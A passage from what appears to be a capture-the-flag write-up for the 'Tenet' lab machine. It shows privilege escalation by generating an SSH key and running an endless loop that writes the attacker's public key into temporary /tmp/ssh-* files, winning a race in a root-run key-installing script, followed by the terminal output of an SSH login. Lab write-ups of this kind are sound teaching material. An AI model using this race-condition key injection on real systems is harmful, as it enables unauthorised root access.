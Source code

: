 - The first thing we are going to do is to create a key pair.

```bash
❯ ssh-keygen -f /root/id_rsa -N ""
Generating public/private ed25519 key pair.
Your identification has been saved in /root/id_rsa
Your public key has been saved in /root/id_rsa.pub
The key fingerprint is:
SHA256:LL4/EFhSOqu9HhJp6tvZ64JW0lJtanWVb1PbNdMymQk root@miguelos
The key's randomart image is:
+--[ED25519 256]--+
|     ..   . E. +.|
|    ...  o   .*oo|
|    ++  . . . oo+|
|   o.*.o   + . . |
|  * = o.S . .    |
| = O ...         |
|. O o ..         |
|.o.ooo ..        |
|.o.+=+o...       |
+----[SHA256]-----+
```

- Now we copy it.

```bash
❯ cat id_rsa.pub | tr -d '\n' | xclip -sel clip
```

- And we run a loop with our public key.

```bash
neil@tenet:~$ while true; do for filename in /tmp/ssh-*; do echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEiM/fMXvCoQX988QWZre1S9ZG5Kguv/ root@miguelos" > $filename;done; done
```

- Now from another window we connect via **SSH**.

```bash
❯ ssh neil@10.10.10.223
The authenticity of host '10.10.10.223 (10.10.10.223)' can't be established.
ED25519 key fingerprint is SHA256:atDC5N+fRDvKKwKE6Y6GZN4MdRAr5aHD24UsVrZ4+ts.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.223' (ED25519) to the list of known hosts.
neil@10.10.10.223's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul  4 01:04:47 UTC 2024

  System load:  0.95               Processes:             178
  Usage of /:   15.3% of 22.51GB   Users logged in:       0
  Memory usage: 11%                IP address for ens160: 10.10.10.223
  Swap usage:   0%


53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Thu Dec 17 10:59:51 2020 from 10.10.14.3
neil@tenet:~$ export TERM=xterm
neil@tenet:~$
```
